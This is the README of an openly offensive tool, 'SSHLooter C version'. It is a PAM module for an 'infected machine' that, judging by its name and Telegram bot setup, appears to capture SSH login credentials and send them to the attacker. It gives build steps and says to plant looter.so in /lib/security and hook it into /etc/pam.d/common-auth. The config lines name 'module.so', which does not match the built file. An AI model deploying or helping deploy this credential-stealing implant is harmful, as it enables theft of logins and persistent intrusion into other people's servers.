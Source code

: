 # SSHLooter C version
It's the C version of [sshLooter](https://github.com/mthbernardes/sshLooter), which was written in python and have a lot of dependencies to be installed on the infected machine.
Now with this C version, you compile it on your machine and send it to the infected machine without installing any dependencies.

# Dependencies
* gcc
* libcurl4-openssl-dev
* libpam0g-dev

# Configure
Edit the `looter.c` and add your telegram bot token and your user id.

# Compiling
```bash
make
```

# Usage
Copy the `looter.so` to the infected machine on `/lib/security`, then edit the `/etc/pam.d/common-auth` and add the following lines.
```
auth optional module.so
account optional module.so
```
